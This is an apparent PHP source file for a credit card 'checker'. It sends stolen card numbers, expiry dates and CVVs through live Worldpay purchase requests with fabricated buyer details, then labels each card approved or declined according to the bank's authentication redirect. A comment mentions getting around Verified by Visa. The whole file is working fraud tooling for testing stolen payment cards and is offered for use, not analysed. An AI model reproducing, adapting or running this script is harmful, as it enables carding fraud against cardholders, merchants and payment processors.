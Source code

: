 # danielzicaxd
<?php

error_reporting(0);


if(file_exists(getcwd().'/bb.txt')) {
        unlink(getcwd().'/bb.txt'); 
    }

	
function value($string,$start,$end){
	$str = explode($start,$string);
	$str = explode($end,$str[1]);
	return $str[0];
}



if($_GET['testar']=="cc"){
	$ccs = $_GET['ccs'];
	$separador	= $_GET['separador'];
	$id		= $_GET['id'];
	$explode = explode($separador, $ccs);


if($explode[0][0] == "4"){
		$tipo = "op-DPChoose-VISA^SSL";
	}
	
	elseif($explode[0][0] == "5"){
		$tipo = "op-DPChoose-ECMC^SSL";
	}


	elseif($explode[0][0] == "3"){
	$tipo = "op-DPChoose-AMEX^SSL";
	}

$numero = $explode[0];
$mes = $explode[1];
$ano = $explode[2];
$cvv = $explode[3];



$random = substr(str_shuffle(str_repeat("0123456789abcdefghijklmnopqrstuvwxyz", 8)), 0, 8);
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, "https://secure.worldpay.com/wcc/purchase?instId=279852&testMode=0&cartId=1&currency=GBP&amount=1.00");
curl_setopt($ch, CURLOPT_HEADER, 1);
curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Linux; Android 5.1.1; SAMSUNG SM-G920F Build/LMY47X) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/3.2 Chrome/38.0.2125.102 Mobile Safari/537.36');
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_ENCODING, "gzip");
curl_setopt($ch, CURLOPT_COOKIESESSION, false);
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/bb.txt');
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/bb.txt');
curl_setopt($ch, CURLOPT_VERBOSE, 1);
curl_setopt($ch, CURLOPT_POST, 0);       
curl_setopt($ch, CURLOPT_REFERER, '');
//curl_setopt($ch, CURLOPT_POSTFIELDS, '');
$b = curl_exec($ch);
$PaymentID = value($b, 'NAME=PaymentID VALUE="','"');
		
	
curl_setopt($ch, CURLOPT_URL, "https://secure.worldpay.com/wcc/purchase");
curl_setopt($ch, CURLOPT_HEADER, 1);
curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36');
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_ENCODING, "gzip");
curl_setopt($ch, CURLOPT_HTTPHEADER, array(
'Content-Type: application/x-www-form-urlencoded',
'Connection: Keep-Alive'
));
curl_setopt($ch, CURLOPT_COOKIESESSION, false);
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/bb.txt');
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/bb.txt');
curl_setopt($ch, CURLOPT_VERBOSE, 1);
curl_setopt($ch, CURLOPT_POST, 0);       
curl_setopt($ch, CURLOPT_REFERER, '');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'PaymentID='.$PaymentID.'&Lang=pt&authCurrency=GBP&'.$tipo.'.x=55&'.$tipo.'.y=17'); //JCB = BURLA O VBV = DE BIN Q VAI PRA TELA DO BANCO AUTHENTICAR
$b12 = curl_exec($ch);


$cardExp_Time = value($b12, 'name="cardExp.time" value="','"');
		

//////////////////////////////////////////////////////////////////////////


curl_setopt($ch, CURLOPT_URL, "https://secure.worldpay.com/wcc/card");
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36');
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_ENCODING, "gzip");
curl_setopt($ch, CURLOPT_HTTPHEADER, array(
'Content-Type: application/x-www-form-urlencoded',
'Connection: Keep-Alive'
));
curl_setopt($ch, CURLOPT_COOKIESESSION, true);
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/bb.txt');
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/bb.txt');
curl_setopt($ch, CURLOPT_VERBOSE, 1);
curl_setopt($ch, CURLOPT_POST, 0);       
curl_setopt($ch, CURLOPT_REFERER, '');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'PaymentID='.$PaymentID.'&Lang=pt&cardNoInput='.$numero.'&cardNoJS=&cardNoHidden=*oculto*&cardCVV=&cardExp.day=32&cardExp.time='.$cardExp_Time.'&cardExp.month='.$mes.'&cardExp.year='.$ano.'&name='.$random.'+asdas&address1=asdasd+'.$random.'&address2=&address3=&town=asdasd+'.$random.'&region=&postcode=&country=BR&tel=&fax=&email='.$random.'%40hotmail.com&op-PMMakePayment.x=14&op-PMMakePayment.y=7');
   
  $s = curl_exec($ch);

$valoress = array('R$ 1,00','R$ 3,00','R$ 2,00','R$ 7,00','R$ 10,00','R$ 6,00','R$ 4,00','R$ 5,00');

$debitouu = $valoress[mt_rand(1,9)];

$bin = file_get_contents("http://localhost/full/bin.php?bin=$numero");

if (strpos($s, "https://www66.bb.com.br/SecureCodeAuth") !== false) {
echo "<font color='green' style='font-size: 15px'>APROVADA | $numero | $mes | $ano | $cvv | Informações: $bin</font><br>";

}elseif (strpos($s, "auth.bb") !== false) {
echo "<font color='green' style='font-size: 15px'>APROVADA | $numero | $mes | $ano | $cvv | Informações: $bin</font><br>";

}else{
echo "<font color='red' style='font-size: 15px'>REPROVADA | $numero | $mes | $ano | $cvv | Informações: $bin <br>";
}
   
if(file_exists(getcwd().'/bb.txt')) {
        unlink(getcwd().'/bb.txt'); 
    }

}
 
	
	?>
